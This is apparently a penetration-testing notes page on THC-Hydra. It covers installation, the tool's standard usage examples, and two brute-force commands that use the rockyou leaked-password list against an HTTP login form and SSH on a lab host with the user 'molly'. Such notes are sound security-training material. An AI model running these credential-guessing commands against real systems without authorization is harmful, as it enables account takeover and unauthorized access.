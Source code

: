# Hydra

## About

[THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) is parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely. It supports: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT), SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP

## Installing

```
sudo git clone https://github.com/vanhauser-thc/thc-hydra.git && cd thc-hydra
sudo ./configure
sudo make
sudo make install
```

## Usage

```
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

`hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.166.146 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![](<../../.gitbook/assets/image (238).png>)

`hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.166.146 -t 4 ssh`

![](<../../.gitbook/assets/image (247).png>)
